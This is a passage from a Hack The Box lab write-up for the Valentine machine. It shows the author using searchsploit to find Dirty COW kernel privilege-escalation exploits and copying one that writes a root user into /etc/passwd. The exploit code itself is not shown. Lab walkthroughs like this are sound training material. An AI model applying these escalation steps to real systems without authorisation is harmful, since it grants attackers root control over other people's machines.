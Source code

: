 
[Wikipedia](https://en.wikipedia.org/wiki/Dirty_COW) confirms this version is vulnerable to DirtyCow. There’s a few options in searchsploit:

    root@kali:/opt/linux_privesc# searchsploit dirty
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
     Exploit Title                                                                                                                                                                      |  Path
                                                                                                                                                                                        | (/usr/share/exploitdb/)
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
    Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page                                                                                                                  | exploits/linux/dos/43199.c
    Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (SUID Method)                                                                  | exploits/linux/local/40616.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/etc/passwd Method)                                                                     | exploits/linux/local/40847.cpp
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)                                                                                        | exploits/linux/local/40838.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)                                                                  | exploits/linux/local/40839.c
    Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)                                                                                         | exploits/linux/local/40611.c
    Quick and Dirty Blog (qdblog) 0.4 - 'categories.php' Local File Inclusion                                                                                                           | exploits/php/webapps/4603.txt
    Quick and Dirty Blog (qdblog) 0.4 - SQL Injection / Local File Inclusion                                                                                                            | exploits/php/webapps/3729.txt
    ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ----------------------------------------
    Shellcodes: No Result
    

After looking over a few, selected one that would add a root user to the passwd file:

    root@kali:~/hackthebox/valentine-10.10.10.79# searchsploit -m exploits/linux/local/40839.c
      Exploit: Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
          URL: https://www.exploit-db.com/exploits/40839/
         Path: /usr/share/exploitdb/exploits/linux/local/40839.c
    File Type: C source, ASCII text, with CRLF line terminators
    